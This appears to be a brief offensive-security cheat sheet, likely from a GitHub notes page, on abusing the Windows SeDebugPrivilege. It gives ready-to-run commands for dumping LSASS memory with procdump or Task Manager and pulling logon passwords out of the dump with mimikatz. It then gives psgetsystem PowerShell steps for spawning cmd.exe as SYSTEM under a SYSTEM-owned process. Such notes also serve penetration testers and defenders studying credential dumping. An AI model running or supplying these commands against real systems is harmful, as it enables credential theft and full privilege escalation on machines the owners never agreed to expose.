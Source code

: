 SeDebugPrivilege allows debugging. You have access to critical system memory.

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
- Make sure lsass.dmp is in the same directory as mimikatz.exe

Also can dump via Task Manager:
Task Manager -> Details -> lsass.exe -> Create dump file

## Remote Code Execution as SYSTEM
https://github.com/decoder-it/psgetsystem

1. Transfer psgetsystem.ps1 to target
2. Run powershell as administrator
3. ```
   tasklist 
   .\psgetsystem.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
   .\psgetsystem.ps1; [MyProcess]::CreateProcessFromParent(612,"c:\Windows\System32\cmd.exe","")
   ```
4. Find a PID that is running as SYSTEM, like winlogon.exe
5. We can also use (Get-Process "lsass").Id instead of the pid


Another example: https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC
